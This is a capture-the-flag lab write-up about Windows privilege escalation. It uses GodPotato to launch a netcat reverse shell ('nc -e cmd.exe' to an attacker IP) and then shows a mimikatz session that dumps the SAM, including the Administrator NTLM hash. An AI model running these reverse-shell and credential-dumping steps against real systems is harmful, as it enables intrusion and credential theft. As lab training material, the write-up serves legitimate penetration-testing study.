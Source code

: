 juicy potato requries CLSRid which for me seems to be hard to get and can't exploite, then I tried GODPOTATO and it works like a charm!!.

{% embed url="https://github.com/BeichenDream/GodPotato" %}

```
./GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 172.16.7.240 2012"

nc -lvnp 2012
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>nt authority\system</p></figcaption></figure>

s3imp3rs0nate\_cl@ssic

**Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.**

```
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

572     {0;000003e7} 1 D 35085          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000003e7} 1 D 2532987     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,10p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2577669     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : SQL01
SysKey : 2cdbbee2d1fb9cfb7cf7189fa66971a6
Local SID : S-1-5-21-3827174835-953655006-33323432

SAMKey : 1f3713f605ea38af43344dc944dea5ce

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: bdaffbfe64f1fc646a3353be1c2c3c99

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
```